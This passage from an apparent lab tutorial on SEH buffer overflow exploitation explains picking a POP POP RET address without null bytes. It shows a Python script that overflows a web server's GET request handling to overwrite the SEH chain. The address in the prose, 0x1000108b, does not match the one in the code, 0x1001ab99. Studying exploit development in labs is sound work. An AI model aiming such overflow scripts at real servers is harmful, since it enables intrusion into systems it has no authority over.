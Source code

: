 
In my case I scrolled past all the modules starting with `00` to avoid inadvertently implementing a rogue **null-byte** in my buffer.



My chosen option was `0x1000108b`



<p align = "center">
<img src = "https://i.imgur.com/G5xGWRw.png">
</p>



I now added this value to my **SEH** variable in my python script and executed it to verify that my thinking was right and execution was flowing as expected.



**Updated Python Script**



```python
#!/usr/bin/python
import socket
import sys


nseh = "B"*4
seh = "\x99\xab\x01\x10" #0x1001ab99 pop pop ret


buffer = "A" * 4061
print "[*] Starting to GET Variable"
buffer += nseh #BBBB
buffer += seh #pop pop ret
junk = "D"*(10000-len(buffer))
buffer += junk #Bunch of D"s to fill remaining space

payload = "GET %d" + str(buffer) + " HTTP/1.1\r\n"
payload += "Host: bof.local\r\n"
payload += "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36\r\n"
payload += "Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"


print "[*] Starting to Fuzz GET Variable with %s bytes" %len(payload)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',80))
print "[*] Connected to bof.local on Port 80"
s.send((payload))
s.close()
print "[*] Finished Fuzzing GET Variable with %s bytes" %len(payload)
```
